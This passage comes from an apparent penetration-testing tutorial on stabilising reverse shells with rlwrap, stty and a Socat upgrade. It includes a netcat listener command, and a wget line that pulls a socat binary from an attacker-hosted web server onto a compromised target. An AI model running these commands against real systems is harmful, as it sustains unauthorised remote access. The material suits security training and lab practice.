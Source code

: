 Note that if the reverse shell is killed, any input in our own terminal will not be visible since we disabled the terminal echo (in the last step). To fix this, type `reset` and press `Enter`. 

-----

### Technique 2: rlwrap

*rlwrap* is a program which can give us access to the command history, autocomplete and other features **immediately** upon receiving the shell. However, some *manual* stabilisation must still be utilised to be able to use `Ctrl + C` inside the shell.

> rlwrap is **not** installed by default on Kali Linux, so we have to first install it with `sudo apt install rlwrap`.

To use rlwrap, we need to invoke a slightly different listener:
```console
~$ rlwrap nc -lvnp <PORT>
```

By prepending our Netcat listener with rlwrap, we obtain a more fully featured shell. This technique is also useful for Windows shells. 

On Linux targets, we can continue to fully stablise the shell using the third step of the previous technique: 
* background the reverse shell with `Ctrl + Z`,
* use `stty raw -echo; fg` to stablise and re-enter the shell.

-----

### Technique 3: Socat

The third way to stablise a shell is to use the initial Netcat shell as a stepping stone to a more fully-featured Socat shell. Like the [first technique](#technique-1-python), this is limited to Linux targets since a Socat shell is no more stable than a Netcat shell on Windows. 

To accomplish this stablisation, we first need to transfer a Socat static compiled binary (available on Github [here](https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat); a statically compiled binary has no dependencies) to the target machine. 

One way to do this is to set up a webserver on the attacking machine inside the directory containing the Socat binary (possibly using Python: `sudo python3 -m http.server 80`). Then, on the target machine, using the netcat shell, download the file (typically via `curl` or `wget` on Linux, e.g. `wget <LOCAL_IP>/socat -O /tmp/socat`).

In a Windows CLI environment, the same can be done with Powershell, using either `Invoke-WebRequest` or a `webrequest` system class. 

Sending and receiving shells with Socat is covered in a later section.

-----

With the above techniques, it is useful to be able to change the terminal tty size. Typically, the shell does this automatically, but must be done manually for reverse/bind shells. In our own terminal, we execute
```console
~$ stty -a
speed 38400 baud; rows 45; columns 118; line = 0;
...
```
and note down the values for `rows` and `columns`. 
